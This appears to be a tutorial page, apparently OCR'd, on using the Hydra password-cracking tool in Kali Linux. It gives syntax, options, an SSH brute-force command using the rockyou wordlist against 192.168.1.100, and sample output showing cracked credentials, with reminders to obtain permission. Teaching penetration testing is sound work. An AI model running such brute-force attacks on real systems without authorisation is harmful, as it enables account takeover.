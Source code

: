 **Example Output**

The output of Hydra will display the successful login credentials, if any, in the following format:

```
[DATA] attack finished for 192.168.1.100 (valid pair found)
[STATUS] attack finished for 192.168.1.100 (waiting for children to finish)
[189][ftp] host: 192.168.1.100   login: admin   password: password123
```

In this example, the valid login credentials are `admin:password123` for the FTP service on the host 192.168.1.100.

**Important Considerations**
- Always obtain permission before using Hydra or any other security tools.
- Be mindful of legal and ethical implications when using Hydra for penetration testing or security research.
- Use Hydra responsibly and within the bounds of the law.



                           ALTERNATIVE
# Using Hydra on Kali Linux

Hydra is a powerful brute force online password cracking tool in Kali Linux that supports numerous protocols including FTP, HTTP, HTTPS, SMB, SSH, and many others.

## Basic Syntax

```bash
hydra -l [username] -P [password list] [target] [protocol]
```

## Common Options

- `-l`: Single username
- `-L`: Username list file
- `-p`: Single password
- `-P`: Password list file
- `-t`: Number of parallel tasks (default: 16)
- `-V`: Verbose mode
- `-f`: Stop after first valid password is found

## Examples

### SSH Brute Force

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.100 ssh
```

Output:
```
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-26 12:34:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.1.100:22/
[22][ssh] host: 192.168.1.100   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
```
